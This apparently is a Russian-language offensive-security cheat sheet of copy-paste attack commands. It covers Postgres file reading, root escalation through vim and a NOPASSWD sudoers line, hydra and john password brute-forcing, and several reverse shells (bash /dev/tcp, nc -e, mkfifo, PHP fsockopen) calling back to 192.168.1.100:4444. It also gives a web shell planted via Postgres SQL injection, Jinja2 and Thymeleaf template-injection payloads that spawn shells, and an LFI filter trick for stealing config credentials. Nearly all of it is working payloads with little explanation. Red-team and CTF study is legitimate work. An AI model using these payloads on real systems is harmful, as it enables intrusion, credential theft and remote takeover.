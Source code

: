 **Полезные штучки**

https://www.hackingarticles.in/red-teaming/

https://www.google.com/amp/s/habr.com/ru/amp/publications/691388/

**Postgres:**

Чтение каталогов через:
```
SELECT pg_ls_dir('/home');
```
Чтение файлов:
```
SELECT pg_read_file('/home/file');
```
**Доступные команды sudo: sudo -l**
**vim с правами root:**
```
/usr/bin/vim -c ":!/bin/bash"
/usr/bin/vim /etc/sudoers
  <твое_имя_пользователя> ALL=(ALL:ALL) NOPASSWD: ALL
```
**Перебор паролей ssh:**
```
hydra -l user -P password.txt ssh://IP
```
**Атака по открытому ключю:**
```
john --worldlist=password.txt --format=SSH id_rsa
```
**Перебор паролей FTP:***
```
hydra -l admin -P password.txt ftp://IP -t 1 -w 10
t - одно соединение за раз
w - задержка в 10 секунд
```
**Перебор паролей postgres:**
```
hydra -l postgres -P password.txt -V IP postgres
```
**Reverse shell:**
Если есть RCE:
```
bash -i >& /dev/tcp/192.168.1.100/4444 0>&1 - на цели
nc -lvnp 4444
```
ИЛИ:
```
nc -e /bin/sh 192.168.1.100 4444
```
ИЛИ:
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.100 4444 > /tmp/f
```
**Если можем загружать файл и открыать его:**
Создаем .php:
```
<?php
$sock=fsockopen("192.168.1.100",4444);
$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```
**Если есть SQLi Postgres:**
```
COPY (SELECT '<?php system($_GET["cmd"]); ?>') TO '/var/www/html/shell.php';
curl http://target.com/shell.php?cmd=whoami
```
**Если есть SSTI на Jinja2:**
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('nc -e /bin/sh 192.168.1.100 4444').read()
```
**Если есть SSTI на Thymeleaf:**
```
${T(java.lang.Runtime).getRuntime().exec("nc -e /bin/sh 192.168.1.100 4444")}
```
**Через LFI:**
```
http://target.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```
Декодируем данные, находим креды, используем их в дальнейшем
